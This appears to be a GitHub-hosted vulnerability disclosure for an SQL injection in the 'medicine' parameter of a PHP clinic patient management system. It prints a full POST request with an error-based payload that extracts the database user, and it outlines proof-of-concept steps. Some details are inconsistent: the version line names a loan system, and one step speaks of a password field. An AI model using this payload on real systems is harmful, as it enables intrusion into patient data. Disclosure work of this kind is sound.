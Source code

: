 # Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Title: Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "medicine_details.php /medicine" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /medicine_details.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/medicine_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

medicine=1 AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619)&packing=11&submit=
```

#### Proof of Concept

1、After logging in, use the add medicine function to capture and analyze the traffic, and find that the program is in medicine_details.php.

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/meidicineshow.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/medicinesourcecode.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting 

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/medicinesqlresult1.png)

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/medicinesql.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/images/medicinesqlresult2.png)

